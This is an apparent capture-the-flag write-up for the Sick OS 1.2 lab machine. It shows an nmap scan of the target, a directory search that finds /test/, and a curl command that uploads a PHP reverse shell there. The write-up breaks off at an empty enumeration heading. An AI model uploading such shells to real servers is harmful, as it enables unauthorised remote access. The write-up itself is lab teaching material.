




# Sick OS 1.2 write Up 

## Getting the target IP, I used arp-scan 

> Target ip: 192.168.100.10

## Network Scanning and Exploitation 

```bash

┌──(kali㉿kali)-[~/Desktop/Machines_WriteUps/Sick0s1_2]
└─$ nmap -sV -sC 192.168.100.10 -p- -o nmap_full_scan 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-22 05:36 EDT
Nmap scan report for 192.168.100.10
Host is up (0.0027s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 66:8c:c0:f2:85:7c:6c:c0:f6:ab:7d:48:04:81:c2:d4 (DSA)
|   2048 ba:86:f5:ee:cc:83:df:a6:3f:fd:c1:34:bb:7e:62:ab (RSA)
|_  256 a1:6c:fa:18:da:57:1d:33:2c:52:e4:ec:97:e2:9e:af (ECDSA)                                                                      
80/tcp open  http    lighttpd 1.4.28                                                                                                 
|_http-server-header: lighttpd/1.4.28
|_http-title: Site doesn't have a title (text/html).
MAC Address: 08:00:27:36:FF:D2 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 170.52 seconds

```

Here only 2 ports are open 22 and 80 22 does not seems to have vulnearability, lets access the port 80 using browser



It has nothing interesting, lets use GoBuster to find the hidden dir's and got only one enpoint that is `/test/` 

On navigating, `/test/` I got the following page:


Here I got no hints, but their is indcation of `lighttpd/1.4.28` and when I searched for it in exploit-db I got the following vulnearbility in the following version.



So here I got vulnearability that I can upload the file here,so here I will upload a php reverse shell file and take the reverse shell connection

```bash
curl --upload-file rev.php -v -url http://192.168.100.10/test/
```

### Here, I got the reverse shell


## Enumeration

